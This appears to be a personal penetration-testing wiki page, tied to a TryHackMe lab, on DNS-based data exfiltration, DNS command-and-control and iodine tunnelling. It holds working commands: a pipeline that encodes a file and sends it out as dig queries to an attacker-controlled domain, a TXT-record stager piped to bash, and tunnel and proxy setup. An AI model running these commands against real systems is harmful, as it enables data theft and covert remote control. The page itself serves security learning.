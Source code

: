 # Data Exfiltration Over DNS

## Introduction and Configuration
For more detail about DNS go to the [[DNS]] article, otherwise we also require control of a domain name with DNS records including NS, A or TXT. [[Setup-DNS]] or you do the [THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt) where they have one setup to be configurable. The IP address you want to exfiltrate data to, in this article stated as variable `$exfil-to-IP`

To be successful:
1. Add an A record that points to the IP you want to exfiltrate data to:
	- `Type A, Subdomain Name: $subdomainnameNS, Value: $exfil-to-IP`
2. Add NS record that routes DNS queries to the A record above
	- `Type NS, Subdomain Name: $subdomainname, Value: $subdomainnameNS.$control_domain_name.com`

Like:
**DNS Record** | **Type** | **Value**
--- | --- | ---
`$subdomainnameNS`.domainname.com  | A   |  `$exfil-to-IP`
`$subdomainname`.domainname.com | NS | `$subdomainnameNS`.domainname.com

To resolve:
```bash
dig +short `$subdomainname.$domainname.com 
```

## Exfiltration Over DNS

The DNS protocol is allowed in almost all firewalls in any organization network and is not regularly monitored. Although maximum length for FQDN (including.separators is 255 characters) and subdomain name (label) length must not exceed 63 characters (not including suffix .com, .net..) equating to a limited number of characters to transfer data over the **domain name**. Typical used when firewall blocks and filters all traffic, testing to TCP/UDP packets to check whether DNS is blocked by firewall or filters.

1. Register Domain Name
2. NS Record points to a server that Attacker controlled from within a network
3. Data is sent as  `D474.domain.com` the D474 is the data exfiltrated within the name
	1. Prior to sending, marshall D474 together
	2. Encode the file
	3. Split data to limitation of size contraints: total url size 255; subdomain label 63 
	4. At the recieving end: `sudo tcpdump -i eth0 udp port 53 -v tcpdump`
	5. At sending end `cat D474.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.$subdomain.$domain.com/' | awk '{print "dig +short " $1}' | bash` ; optionally on one line add ` tr -d "\n"` between `sed` and `fold` command.
4. DNS request is sent through local DNS server to internet
5. Exfiltrate-To location recieves DNS request
6. Extract of `D474` from the domain name.
7. `echo "$exfiltrated-data$.$subdomain.$domain_name.com." | cut -d"." -f1-8 | tr -d "." | base64 -d`

## C2 Communications over DNS 

For a listing of modern C2 see the [[C2-Matrix]] and [[Introduction-To-Comand-And-Control-Frameworks]] if you require some basic understanding regard fundementals of what a C2 is. Some C2 use DNS for communication and also use TXT DNS record to run a droppers to download files.

```bash
# $command-in-txt-records.domain.com
# C2 agent would request the TXT content to then format and decode it 
dig +short -t TXT $command-in-txt-records.$domain.com | tr -d "\"" | base64 -d | bash
```

## DNS Tunneling (TCPoverDNS)

DNS tunneling is a technique of encapsulating other protocols over the DNS protocol, this commuication chanell must be established one both ends of the tunnel. [iodine](https://github.com/yarrick/iodine) is a DNS tunnel written in C that can let you tunel IPv4 data through a DNS server.

 To establish a DNS tunnel:
 1. Update DNS records, creating a new NS pointing to `$exfiltrate-to-location`
 2. Run `iodined` server from `$exfiltrate-to-location`
 3. Run `iodine` (no `d` in the iodine client) client from `$exfiltrate-from-location`
 4. SSH to `fill` on create network interface to create a proxy over DNS with `-D` flag to create dynamic port forwarding

WE can then use local IP, port as proxy in Firefox or Proxychains
```bash
# Create a new network interface dns0
# -f: foreground, -c: skip checking client IP for each DNS request, -P set password
# $IP/CIDR is set to network IP for the dns0; this is the addressing of dns0!
# I.e server will be 10.1.1.1 if $IP/$CIDR = 10.1.1.1/24 ; client will be 10.1.1.2
# Then provide a nameserver
sudo iodined -f -c -P <password> $IP/$CIDR $ns.$domain.com  
# Client to server:
sudo iodine -P $password $ns.$domain.com 
# Create dynamic port forward
ssh $user@10.1.1.2 -4 -f -N -D 1080
proxychains curl http://$ip/
# OR
curl --socks5 127.0.0.1:1080 http://$ip/
```


## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)